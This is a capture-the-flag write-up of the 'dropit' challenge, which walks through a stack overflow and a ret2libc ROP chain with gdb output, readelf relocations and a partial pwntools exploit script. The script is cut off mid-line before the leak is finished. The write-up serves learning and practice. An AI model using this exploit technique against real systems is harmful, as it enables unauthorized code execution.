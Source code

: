 # dROPit

## Task

You're on your own this time. Can you get a shell?

nc challenges.ctfd.io 30261

Hint: https://libc.rip

File: dropit

## Solution

```bash  
$ file dropit  
dropit: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically
linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=d88dcfc6ecf55a474a7d461e14648e545a0522fa, for GNU/Linux 3.2.0,
not stripped  
$ checksec dropit  
CANARY    : disabled  
FORTIFY   : disabled  
NX        : ENABLED  
PIE       : disabled  
RELRO     : FULL  
```

Like the name implies, we have to use ROP.

It was my first time doing this successfully and I struggled for a while until
I found this very good tutorial:
https://gr4n173.github.io/2020/07/11/ret2libc.html

You should definitely read it if you don't know what ROP is or how to pull it
of.

I liked it very much. I have stored these files in the `dropit-files` folder
if you want to try it yourself.

What we basically do is:

- overflow the buffer  
- use a gadget to move the address of `puts@got` into `rdi`  
- use a function from the binary `puts@plt` to leak that address  
- return to `main` to read the adjusted payload

Step 1:

```nasm  
gdb-peda$ disass main  
Dump of assembler code for function main:  
  0x0000000000401146 <+0>:     push   rbp  
  0x0000000000401147 <+1>:     mov    rbp,rsp  
  0x000000000040114a <+4>:     sub    rsp,0x30  
  0x000000000040114e <+8>:     mov    rax,QWORD PTR [rip+0x2ebb]        #
0x404010 <stdout@@GLIBC_2.2.5>  
  0x0000000000401155 <+15>:    mov    ecx,0x0  
  0x000000000040115a <+20>:    mov    edx,0x2  
  0x000000000040115f <+25>:    mov    esi,0x0  
  0x0000000000401164 <+30>:    mov    rdi,rax  
  0x0000000000401167 <+33>:    call   0x401050 <setvbuf@plt>  
  0x000000000040116c <+38>:    mov    edi,0x402004  
  0x0000000000401171 <+43>:    call   0x401030 <puts@plt>  
  0x0000000000401176 <+48>:    mov    rdx,QWORD PTR [rip+0x2ea3]        #
0x404020 <stdin@@GLIBC_2.2.5>  
  0x000000000040117d <+55>:    lea    rax,[rbp-0x30]  
  0x0000000000401181 <+59>:    mov    esi,0x64  
  0x0000000000401186 <+64>:    mov    rdi,rax  
  0x0000000000401189 <+67>:    call   0x401040 <fgets@plt>  
  0x000000000040118e <+72>:    mov    eax,0x0  
  0x0000000000401193 <+77>:    leave  
  0x0000000000401194 <+78>:    ret  
End of assembler dump.  
```

We call `char *fgets(char *s, int size, FILE *stream)` with `size = 0x64` but
our stack is only `0x30`. Let's create a pattern and set a breakpoint at
`<+78>`.

```nasm  
gdb-peda$ b *0x0000000000401194  
Breakpoint 1 at 0x401194  
gdb-peda$ pattern create 100 pattern.txt  
Writing pattern of 100 chars to filename "pattern.txt"  
gdb-peda$ r < pattern.txt  
Breakpoint 1, 0x0000000000401194 in main ()  
gdb-peda$ info register rsp  
rsp            0x7fffffffe1f8      0x7fffffffe1f8  
gdb-peda$ x/s 0x7fffffffe1f8  
0x7fffffffe1f8: "AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AA"  
gdb-peda$ pattern offset "AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AA"  
AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AA found at offset: 56  
```

We could now use `dumprop` to display our possible gadgets, but `pwntools` can
handle that for us as well. We also need the `puts@plt` address and
`puts@got`. While we are there let's get `main` too:

```nasm  
gdb-peda$ dumprop binary "pop rdi"  
Warning: this can be very slow, do not run for large memory range  
Writing ROP gadgets to file: dropit-rop.txt ...  
0x401203: pop rdi; ret  
gdb-peda$ info functions main  
All functions matching regular expression "main":

Non-debugging symbols:  
0x0000000000  main  
gdb-peda$ info functions puts@plt  
All functions matching regular expression "puts@plt":

Non-debugging symbols:  
0x0000000000401030  puts@plt  
gdb-peda$ readelf  
...  
.got = 0x403fb0  
...  
gdb-peda$ x/8a 0x403fb0  
0x403fb0:       0x403dc0        0x0  
0x403fc0:       0x0     0x7ffff7e4d380 <puts>  
```

Finding the `got` address in gdb can be tricky, a better way is `readelf`:

```bash  
$ readelf --relocs dropit

Relocation section '.rela.dyn' at offset 0x4e8 contains 6 entries:  
 Offset          Info           Type           Sym. Value    Sym. Name +
Addend  
000000403fe0  000100000006 R_X86_64_GLOB_DAT 0000000000000000
_ITM_deregisterTM[...] + 0  
000000403fe8  000300000006 R_X86_64_GLOB_DAT 0000000000000000
__libc_start_main@GLIBC_2.2.5 + 0  
000000403ff0  000500000006 R_X86_64_GLOB_DAT 0000000000000000 __gmon_start__ +
0  
000000403ff8  000700000006 R_X86_64_GLOB_DAT 0000000000000000
_ITM_registerTMCl[...] + 0  
000000404010  000800000005 R_X86_64_COPY     0000000000404010
stdout@GLIBC_2.2.5 + 0  
000000404020  000900000005 R_X86_64_COPY     0000000000404020
stdin@GLIBC_2.2.5 + 0

Relocation section '.rela.plt' at offset 0x578 contains 3 entries:  
 Offset          Info           Type           Sym. Value    Sym. Name +
Addend  
000000403fc8  000200000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5
+ 0  
000000403fd0  000400000007 R_X86_64_JUMP_SLO 0000000000000000
fgets@GLIBC_2.2.5 + 0  
000000403fd8  000600000007 R_X86_64_JUMP_SLO 0000000000000000
setvbuf@GLIBC_2.2.5 + 0  
```

We now have everything we need to leak the libc address of `puts`. We then can
identify the libc version via https://libc.rip and continue coding.

But let's do it with pwntools. This is mainly the code from the tutorial
mentioned before, but written by me step by step:

```python  
#!/usr/bin/env python2  
from pwn import *  
import struct  
import binascii

elf = ELF("./dropit")  
rop = ROP(elf)

POP_RDI = rop.find_gadget(['pop rdi', 'ret'])[0] # 0x401203  
PUTS_GOT = elf.got['puts'] # 0x403fc8  
PUTS_PLT = elf.plt['puts'] # 0x401030  
MAIN = elf.symbols['main'] # 0x401146

info("pop rdi;ret: %s" % hex(POP_RDI))  
info("puts@got: %s" % hex(PUTS_GOT))  
info("puts@plt: %s" % hex(PUTS_PLT))  
info("main: %s" % hex(MAIN))

payload  = 'A' * 56  
payload += p64(POP_RDI)  
payload += p64(PUTS_GOT)  
payload += p64(PUTS_PLT)  
payload += p64(MAIN)

p = remote('challenges.ctfd.io', 30261)

info(binascii.hexlify(p.recv()))  
info(binascii.hexlify(p.recv()))  
p.sendline(payload)  
puts_remote_raw = p.recv()  
info(binascii.hexlify(p.recv()))

leak = struct.unpack("

Original writeup (https://github.com/klassiker/ctf-
writeups/blob/master/2020/newark-academy/binary-exploitation/dropit.md).